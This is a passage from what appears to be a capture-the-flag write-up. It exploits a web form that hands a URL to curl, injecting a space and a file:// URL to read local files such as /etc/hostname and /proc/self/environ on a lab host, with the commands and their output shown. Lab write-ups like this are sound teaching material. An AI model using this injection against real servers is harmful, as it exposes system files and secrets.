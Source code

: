 ```
        <p>Message: File not found.</p>
        <p>Error code explanation: 404 - Nothing matches the given URI.</p>
    </body>
</html>

```

There’s two 404 pages there, and at my Python webserver, two failed requests:

```
127.0.0.1 - - [03/May/2025 05:53:23] code 404, message File not found
127.0.0.1 - - [03/May/2025 05:53:23] "GET /test1 HTTP/1.1" 404 -
127.0.0.1 - - [03/May/2025 05:53:23] code 404, message File not found
127.0.0.1 - - [03/May/2025 05:53:23] "GET /test2 HTTP/1.1" 404 -

```

#### File Read

With that in mind, I’ll try a space between a legit URL and a `file://` URL:

![image-20250502173332836](/img/image-20250502173332836.png)

It works! I can also just break the first URL to only get the file read:

![image-20250502173410449](/img/image-20250502173410449.png)

That’s kind of like doing this:

```

oxdf@hacky$ curl -s http:// file:///etc/hostname
hacky

```

### Filesystem Enumeration

The current process is a `curl` process with `-s` and both URLs:

![image-20250502173554422](/img/image-20250502173554422.png)

I’ll switch to command line. I can get the environment variables for the current process (and with some `bash` to clean it up):

```

oxdf@hacky$ curl 'http://10.129.234.87/index.php' -d 'url=http:// file:///proc/self/environ' -o- -s | sed -n 's:.*<pre>\(.*\)</pre>.*:\1:p' | tr '\000' '\n'
APACHE_RUN_DIR=/var/run/apache2
SYSTEMD_EXEC_PID=864
APACHE_PID_FILE=/var/run/apache2/apache2.pid
JOURNAL_STREAM=8:21130
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
INVOCATION_ID=0320944a871242e8aea7f3bd1efad651
APACHE_LOCK_DIR=/var/lock/apache2
LANG=C
APACHE_RUN_USER=www-data
APACHE_RUN_GROUP=www-data
APACHE_LOG_DIR=/var/log/apache2
PWD=/var/www/html

```
